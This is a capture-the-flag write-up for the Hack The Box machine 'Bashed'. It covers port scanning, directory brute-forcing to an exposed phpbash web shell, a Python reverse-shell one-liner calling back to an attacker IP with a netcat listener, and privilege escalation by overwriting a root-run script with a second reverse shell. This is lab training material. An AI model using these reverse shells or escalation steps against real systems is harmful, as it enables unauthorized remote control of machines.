


# Hack the box - Bashed


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Linux</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.68</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2018 Jan 22</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.68
```


There is only web server running on this machine.

## Web exploration

On the index page there is blog:


There is a link for github page on the blog:


There is 2 files that could be on the same page. On readme file there is useful information where to find potential shell:


Let's directory bruteforce this site to get some interesting paths:

```
ffuf -u http://10.10.10.68/uploads/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


There is /dev directory is interesting to look at:


Let's click on phpbash.min.php:


## Getting user flag

We can get user flag straight away:


## Getting shell on local machine

We need to get connection from we to our local machine. We will use netcat on port 1234 to listen and python script on the server:

Web shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.x.x",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Local machine:
```
nc -vlp 1234
```


## Privilege escalation

Where is sudo with no password on scriptmanager user:

```
sudo -l
```



Let's improve our shell and check for user files:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```


As we can see there is test.py file owned by scriptmanager and test.txt owned by root. test.txt is changed recently. We can change test.py file to exploit test.py and get access. Here is cool onliner to inject:

```
echo "import socket,subprocess,os;" > test.py; echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);" >> test.py; echo "s.connect((\"10.10.x.x\",8888));os.dup2(s.fileno(),0);" >> test.py; echo "os.dup2(s.fileno(),1);" >> test.py; echo "os.dup2(s.fileno(),2);" >> test.py; echo "p=subprocess.call([\"/bin/sh\",\"-i\"]);" >> test.py
```

This should work. Just change 10.10.x.x ip to your local. 

## Root flag

Now use netcat to get a root shell:

```
nc -nvlp 8888
```
